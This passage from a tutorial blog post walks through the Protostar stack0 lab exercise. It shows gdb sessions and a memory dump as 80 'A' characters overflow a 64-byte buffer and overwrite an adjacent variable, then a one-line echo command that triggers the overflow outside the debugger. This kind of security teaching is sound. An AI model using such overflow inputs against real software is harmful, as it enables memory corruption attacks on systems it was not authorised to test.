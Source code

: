 So the hexadecimal value of A is 0x41. We can see our A's starting at ```0xbffffc60```. This suggests that our buffer starts at this address. We can also see that we still have not reached the ```modified``` variable, which is why we haven't been able to overwrite the value. Remember the size of our buffer? 64. If we enter about 80 A's, we may be able overflow the modified variable and change it's value. Let's give this a shot:

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack0

Breakpoint 1, 0x0804840c in main (argc=1, argv=0xbffffd54) at stack0/stack0.c:11
11	in stack0/stack0.c
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, main (argc=1, argv=0xbffffd54) at stack0/stack0.c:13
13	in stack0/stack0.c

(gdb) x/32wx $esp
0xbffffc40:	0xbffffc5c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffffc50:	0xb7fd7ff4	0xb7ec6165	0xbffffc68	0x41414141
0xbffffc60:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc70:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc80:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc90:	0x41414141	0x41414141	0x41414141	0x41414141 <----
0xbffffca0:	0x41414141	0x41414141	0x41414141	0xb7eadc00
0xbffffcb0:	0x00000001	0xbffffd54	0xbffffd5c	0xb7fe1848
```

Et voila! We have overwritten the value of the ```modified``` variable, and also overwritten variables after that with out A's. Let's do this outside of GDB now:

```
$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA | ./stack0
you have changed the 'modified' variable
Segmentation fault
```

We have completed our first memory corruption exercise! This lays the foundation for stack buffer overflows, so if you've made it this far give yourself a good pat on the back! That's all for now! I'll see you in the next post!
